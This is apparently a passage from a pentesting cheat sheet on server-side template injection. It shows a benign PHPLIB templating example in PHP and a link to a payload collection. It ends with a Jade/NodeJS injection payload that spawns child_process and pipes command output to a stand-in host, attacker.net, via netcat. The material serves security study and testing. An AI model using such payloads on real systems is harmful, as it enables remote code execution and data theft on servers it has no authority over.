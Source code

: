 `authors.php`



```
<?php
//we want to display this author list
$authors = array(
 'Christian Weiske' => 'cweiske@php.net',
 'Bjoern Schotte' => 'schotte@mayflower.de'
);

require_once 'HTML/Template/PHPLIB.php';
//create template object
$t =& new HTML_Template_PHPLIB(dirname(__FILE__), 'keep');
//load file
$t->setFile('authors', 'authors.tpl');
//set block
$t->setBlock('authors', 'authorline', 'authorline_ref');

//set some variables
$t->setVar('NUM_AUTHORS', count($authors));
$t->setVar('PAGE_TITLE', 'Code authors as of ' . date('Y-m-d'));

//display the authors
foreach ($authors as $name => $email) {
 $t->setVar('AUTHOR_NAME', $name);
 $t->setVar('AUTHOR_EMAIL', $email);
 $t->parse('authorline_ref', 'authorline', true);
}

//finish and echo
echo $t->finish($t->parse('OUT', 'authors'));
?>
```

**More information**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#phplib-and-html_template_phplib](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#phplib-and-html_template_phplib)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jade-nodejs)

Jade (NodeJS)



```
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```
